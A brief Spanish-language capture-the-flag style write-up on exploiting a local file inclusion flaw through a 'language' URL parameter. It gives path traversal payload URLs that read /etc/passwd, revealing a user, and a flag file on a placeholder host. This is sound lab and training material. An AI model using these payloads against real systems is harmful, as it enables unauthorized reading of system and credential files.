

# LFI: Path Traversal

La página web que vulneraremos es:

* Podemos seleccionar un **lenguaje** para nuestra página web, aquí es donde la url usa un **párametro** `?languaje=<Archivo>.php`

---

Para leer el archivo `/etc/passwd` usaremos el siguiente payload `http://<IP>/index.php?language=/../../../../etc/passwd`

* El usuario es `barry`

---

Para leer el contenido del archivo `flag.txt` usaremos el siguiente payload `http://<IP>/index.php?language=/../../../../../../../../../usr/share/flags/flag.txt`

    

